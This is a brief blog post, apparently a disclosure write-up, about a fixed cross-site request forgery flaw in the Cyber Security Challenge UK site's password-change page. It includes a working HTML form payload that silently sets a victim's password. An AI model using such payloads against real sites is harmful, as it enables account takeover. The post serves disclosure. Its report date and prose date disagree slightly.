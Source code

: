 ```yaml
---
layout: post
title: Cyber Security Challenge Change Password CSRF
tag: 
---
```


# About

Cross Site Request Forgery Vulnerability in
<https://cybersecuritychallenge.org.uk/>

* Reported: 10/08/13
* Fixed: 12/08/13

The Cyber Security challenge is a UK based organisation organising security based challenges for enthusiasts. The bug was a Cross Site Request Forgery vulnerability and was found in the user profile page on the Cyber Security Challenge website. This allowed attackers to change the password of the target user and login to their account. The bug was reported on the 10th of July 2013 and the bug was swiftly fixed a couple of days after.

# Exploit

```html
<!doctype html>
<html>
<body>
<form name="form0"
action="https://cybersecuritychallenge.org.uk/registration/index.php/player/change_password/change"
method="post">
<input type="hidden" name="user_newpass" value="1234567" />
<input type="hidden" name="user_newpass2" value="1234567" />
<input type="submit" value="Perform CSRF" />
</form>
</body>
</html>
```